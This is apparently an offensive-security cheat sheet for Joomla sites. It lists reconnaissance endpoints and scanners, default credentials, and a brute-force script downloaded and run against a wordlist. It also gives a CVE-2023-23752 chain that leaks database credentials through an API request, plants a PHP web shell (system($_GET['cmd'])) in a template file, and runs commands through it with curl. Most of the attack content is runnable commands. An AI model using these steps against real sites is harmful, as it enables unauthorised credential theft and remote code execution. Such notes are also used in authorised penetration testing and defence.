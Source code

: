 # 🖇 Joomla!

## Reconnaissance

### Endpoints | Manual

```
/robots.txt
/README.txt
/LICENSE.txt
/administrator/manifests/files/joomla.xml
/language/en-GB/en-GB.xml
/plugins/system/cache/cache.xml
/web.config
```

### Automatic

```bash
# droopescan
droopescan scan joomla --url http://joomla-site.local/

# joomscan - OWASP 
git clone https://github.com/rezasp/joomscan.git
cd joomscan
perl joomscan.pl
```

## Exploit

### Bruteforce

> **Default credentials :**&#x20;
>
> admin:admin

```bash
wget https://raw.githubusercontent.com/ajnik/joomla-bruteforce/master/joomla-brute.py
python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

### CVE-2023-23752 to Code Execution

```bash
curl -v http://10.9.49.205/api/index.php/v1/config/application?public=true
# Joomla! MySQL credentials plain-text
# Modify a template when logged in
# Site templates > Editor > modify 'error.php' :
system($_GET['cmd']);

# try : 
curl -s http://joomla-site.local/templates/cassiopeia/error.php\?cmd\=id
```
